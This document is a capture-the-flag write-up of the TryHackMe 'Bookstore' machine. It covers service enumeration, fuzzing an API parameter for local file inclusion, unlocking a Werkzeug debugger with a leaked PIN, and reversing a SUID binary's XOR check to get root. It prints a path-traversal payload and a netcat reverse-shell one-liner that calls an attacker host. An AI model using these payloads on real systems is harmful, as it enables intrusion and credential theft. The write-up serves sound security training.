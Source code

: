 ```yaml
---
title: Bookstore 
category: writeup
tags: tryhackme
---
```

https://tryhackme.com/room/bookstoreoc
# Summary

Book store is a medium rated machine on TryHackMe that involves doing some basic web enumeration, fuzzing the REST API to find a parameter that is vulnerable to Local File Inclusion allowing us to retrieve the PIN for the Werkzeug console leading code execution on the system. The privesc is done by finding the `try-harder` binary which takes an integer as an input which is XOR'd with 2 other integers and spawn's a shell if the input integer matches.

# Enumeration

### NMAP

Doing a TCP NMAP scan reveals the following:

```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCs5RybjdxaxapwkXwbzqZqONeX4X8rYtfTsy7wey7ZeRNsl36qQWhTrurBWWnYPO7wn2nEQ7Iz0+tmvSI3hms3eIEufCC/2FEftezKhtP1s4/qjp8UmRdaewMW2zYg+UDmn9QYmRfbBH80CLQvBwlsibEi3aLvhi/YrNCzL5yxMFQNWHIEMIry/FK1aSbMj7DEXTRnk5R3CYg3/OX1k3ssy7GlXAcvt5QyfmQQKfwpOG7UM9M8mXDCMiTGlvgx6dJkbG0XI81ho2yMlcDEZ/AsXaDPAKbH+RW5FsC5R1ft9PhRnaIkUoPwCLKl8Tp6YFSPcANVFYwTxtdUReU3QaF9
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCbhAKUo1OeBOX5j9stuJkgBBmhTJ+zWZIRZyNDaSCxG6U817W85c9TV1oWw/A0TosCyr73Mn73BiyGAxis6lNQ=
|   256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAr3xDLg8D5BpJSRh8OgBRPhvxNSPERedYUTJkjDs/jc
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 834559878C5590337027E6EB7D966AEE
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    syn-ack ttl 61 Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-title: Home
```

**We have the following observations:**

- Port 80 is open
- Port 22 is open
- Port 5000 is open with an /api entry in the robots.txt file and is running a python web server?.

## Directory scanning

I used feroxbuster to find the files on the website.

[epi052/feroxbuster](https://github.com/epi052/feroxbuster)

### Port 80

```bash
200       6452 http://10.10.188.179/index.html
301        319 http://10.10.188.179/javascript
200       2940 http://10.10.188.179/books.html
301        315 http://10.10.188.179/images
```

### Port 5000

```bash
200        825 http://10.10.188.179:5000/api
200       1985 http://10.10.188.179:5000/console
```

## Web Enumeration

### Port 80

Checking the login.html file reveals the following message in the comments of the source.

```html
<!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->
```

Looks we are most likely looking for an LFI vulnerability to read the `/home/sid/.bash_history` file which contains the PIN we can use to gain acess to the Werkzeug debugger on port 5000.

Checking the books.html file reveals the following message in the source:

```html
<!--GY4CANZUEA3TIIBXGAQDOMZAGNQSAMTGEAZGMIBXG4QDONZAG43SAMTFEA3TSIBWMYQDONJAG42CANZVEA3DEIBWGUQDEZJAGYZSANTGEA3GIIBSMYQDONZAGYYSANZUEA3DGIBWHAQDGZRAG43CAM3EEA2TIIBXGQQDGNZAGYZCAN3BEA3TQIBXGUQDOMRAGRQSAMZREA2DS=== -->
```

That after being base32 decoded gives a hex string which on being decoded... well gives a youtube link. Find out for yourself 

[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base32('A-Z2-7%3D',true)From_Hex('Auto')&input=R1k0Q0FOWlVFQTNUSUlCWEdBUURPTVpBR05RU0FNVEdFQVpHTUlCWEc0UURPTlpBRzQzU0FNVEZFQTNUU0lCV01ZUURPTkpBRzQyQ0FOWlZFQTNERUlCV0dVUURFWkpBR1laU0FOVEdFQTNHSUlCU01ZUURPTlpBR1lZU0FOWlVFQTNER0lCV0hBUURHWlJBRzQzQ0FNM0VFQTJUSUlCWEdRUURHTlpBR1laQ0FOM0JFQTNUUUlCWEdVUURPTVJBR1JRU0FNWlJFQTJEUz09PSA)

😤

Admittedly I did fall for it haha.

Further checking the source reveals a the assets/js/api.js file being called which contains the following comment:

```jsx
//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.
```

This is very interesting as there was probably a v1 of the API most likely running on the port 5000 and has a parameter that can be fuzzed for an LFI.

### Port 5000

Checking the /console endpoint reveals a Werkzeug debugger and the PIN for that is available in the bash_history as found earlier.

Checking the /api endpoint reveals the following message:

```
**API Documentation
Since every good API has a documentation we have one as well!
The various routes this API currently provides are:**

/api/v2/resources/books/all (Retrieve all books and get the output in a json format)

/api/v2/resources/books/random4 (Retrieve 4 random records)

/api/v2/resources/books?id=1(Search by a specific parameter , id parameter)

/api/v2/resources/books?author=J.K. Rowling (Search by a specific parameter, this query will return all the books with author=J.K. Rowling)

/api/v2/resources/books?published=1993 (This query will return all the books published in the year 1993)

/api/v2/resources/books?author=J.K. Rowling&published=2003 (Search by a combination of 2 or more parameters)
```

Now we have the following information:

- There is a PIN in sid's bash history file.
- There is a parameter most in the /api/v1/resources/books endpoint which is vulnerable to LFI.

Awesome, now all that is left to do is just FUZZ.

I used ffuf for this and used the following command.

```bash
fuff -u 'http://10.10.1.152:5000/api/v1/resources/books?PARAM=../../../../../../../etc/passwd' -w /opt/SecLists/Discovery/Web-Content/raft-medium-words-lowercase.txt:PARAM
```

We get a hit on the show parameter and checking the bash history gives us the PIN.

After typing in the PIN we get access to the python console from where we can spawn a shell using the following payload.

```python
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker ip> 1337 >/tmp/f")
```

Now we have a shell as sid.

# Privilege Escalation

Looking at the contents of the home directory reveals a interesting `try-harder` binary with a SUID bit set.

Transferring the binary over to my kali machine and taking a look at it in ghidra reveals the following.

```c
void main(void) 
{
  long in_FS_OFFSET;
  uint user_input;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setuid(0);
  local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&user_input);
  local_14 = user_input ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
  else {
    puts("Incorrect Try Harder");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

All this binary does is check if the integer that the user enters XOR'd with `0x1116` and `0x5db3` is equal to `0x5dcd21f4`.

The way XOR works is if you XOR `a = x ^ y ^ z` is the same as `y = a ^ x ^ z` 

We have the `a` which is `0x5dcd21f4` which is being compared to local_14, `x` which is `0x1116` , and `z` which is `0x5db3`

```python
root:book-store/ # python3
Python 3.8.6 (default, Sep 25 2020, 09:36:53) 
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x5dcd21f4 ^ 0x1116 ^ 0x5db3
1573743953
```

Running the binary and passing in that number gives us a shell as root.

```
sid@bookstore:~$ ./try-harder
What's The Magic Number?!
1573743953
root@bookstore:~#
```
